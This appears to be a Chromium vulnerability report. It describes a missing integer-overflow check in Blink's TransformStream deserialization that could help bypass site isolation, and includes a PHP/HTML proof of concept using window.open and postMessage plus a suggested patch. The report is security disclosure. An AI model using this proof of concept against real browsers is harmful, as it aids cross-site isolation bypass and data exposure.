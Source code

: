 <b>VULNERABILITY DETAILS</b>

---

    case kTransformStreamTransferTag: {
      if (!TransferableStreamsEnabled())
        return nullptr;
      uint32_t index = 0;
      if (!ReadUint32(&index) || !transferred_stream_ports_ ||
          index + 1 >= transferred_stream_ports_->size()) {
        return nullptr;
      }
      ReadableStream* readable = ReadableStream::Deserialize(
          script_state_, (*transferred_stream_ports_)[index].Get(),
          exception_state);
      if (!readable)
        return nullptr;

      WritableStream* writable = WritableStream::Deserialize(
          script_state_, (*transferred_stream_ports_)[index + 1].Get(),
          exception_state);
      if (!writable)
        return nullptr;

      return MakeGarbageCollected<TransformStream>(readable, writable);
    }



---
- [1] https://source.chromium.org/chromium/chromium/src/+/master:third_party/blink/renderer/bindings/core/v8/serialization/v8_script_value_deserializer.cc;l=572-593;bpv=1;bpt=1

kTransformStreamTransferTag only validate out-of-bound access, it should also check integer overflow to protect accessing the different readable stream.
It can be using with bypassing site-isolation since we can send a serialized message via postMessage.

<b>VERSION</b>

navigator.userAgent == "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36"

<b>REPRODUCTION CASE</b>

[PoC]
<html>
    <head>
        <?php
if ($_GET['x'] == 1) { // app.imjuno.com
        ?>
        <meta http-equiv="origin-trial" content="AhPJIdzCggLn5eyC5UyXR1T+zK/cyngs5obkhmVNihHRn/nQ8dZHYv/sO792DhhqdLYZbzBao1vu9JqyIYrt7AIAAABweyJvcmlnaW4iOiJodHRwczovL3Rlc3Rkb21haW4uanVubzo0NDMiLCJmZWF0dXJlIjoiUlRDSW5zZXJ0YWJsZVN0cmVhbXMiLCJleHBpcnkiOjE1OTc5OTc1ODIsImlzU3ViZG9tYWluIjp0cnVlfQ==">
<?php
    } else { // testdomain.juno (different process)
?>
        <meta http-equiv="origin-trial" content="Auaakp264bS0a1jJ9m6KFG4DTeuwl3Bvgw8+ZiIf6LKlcs2VyBbcyPM/m4ihnwqW+Jj7lFuyI3g0bJe4mGtDcgoAAABceyJvcmlnaW4iOiJodHRwczovL2FwcC5pbWp1bm8uY29tOjQ0MyIsImZlYXR1cmUiOiJSVENJbnNlcnRhYmxlU3RyZWFtcyIsImV4cGlyeSI6MTU5Nzk5MDExNH0=">

<?php
    }
?>

    </head>
    <body>
    <script>
if (location.search.length > 1) // testdomain.juno (different process)
        window.onmessage = function() { console.log('yeah', arguments[0].data) }
else { // app.imjuno.com
    var orig = new TransformStream();
    var other = new TransformStream()
    var target = window.open('https://testdomain.juno/m/a.php?x=1');
    setTimeout(function() { console.log(1234); target.postMessage(orig, '*', [orig]); }, 1000);
}
    </script>
    </body>
</html>

index must be changed to UINT_MAX (0xffffffff) with debugger (or code execution via renderer RCE).

Below is a possible patch. (return nullptr if read index is kNotFound (-1))

      if (!ReadUint32(&index) || index == kNotFound || !transferred_stream_ports_ ||
          index + 1 >= transferred_stream_ports_->size()) {
        return nullptr;
      }